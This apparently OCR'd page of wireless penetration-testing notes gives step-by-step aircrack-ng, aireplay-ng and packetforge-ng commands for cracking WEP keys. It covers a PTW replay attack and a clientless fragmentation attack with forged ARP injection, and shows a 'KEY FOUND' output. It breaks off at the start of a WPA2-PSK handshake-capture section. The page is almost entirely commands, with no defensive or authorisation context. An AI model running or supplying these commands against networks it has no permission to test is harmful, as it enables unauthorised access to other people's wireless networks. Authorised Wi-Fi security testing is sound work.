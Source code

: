 Gather 7000+ ACKs

root@base:/root# aircrack file.cap 
KEY FOUND! [REDACTED]

### PTW Attack
1. Monitor mode setup:
```bash
airmon-ng start wlan0 <channel>
```

2. Capture packets:
```bash
airodump-ng -c <channel> --bssid <AP_MAC> -w <filename> mon0
```

3. Authenticate:
```bash
aireplay-ng -1 60 -e <ESSID> -a <AP_MAC> -h <OUR_MAC> mon0
```

4. Interactive replay:
```bash
aireplay-ng -2 -b <AP_MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0
```

5. Crack key:
```bash
aircrack-ng -0 -z -n 64 <filename>
```

### Clientless WEP Testing (Fragmentation)
1. Authenticate with persistence:
```bash
aireplay-ng -1 60 -e <ESSID> -b <AP_MAC> -h <OUR_MAC> mon0
```

2. Fragmentation attack:
```bash
aireplay-ng -5 -b <AP_MAC> -h <OUR_MAC> mon0
```

3. Forge ARP packet:
```bash
packetforge-ng -0 -a <AP_MAC> -h <OUR_MAC> -l <SOURCE_IP> -k <DEST_IP> -y fragment.xor -w inject.cap
```

4. Inject packet:
```bash
aireplay-ng -2 -r inject.cap mon0
```

## WPA2-PSK Testing

### Capturing Handshake
1. Start monitor mode:
```bash
airmon-ng start wlan0 <channel>
```
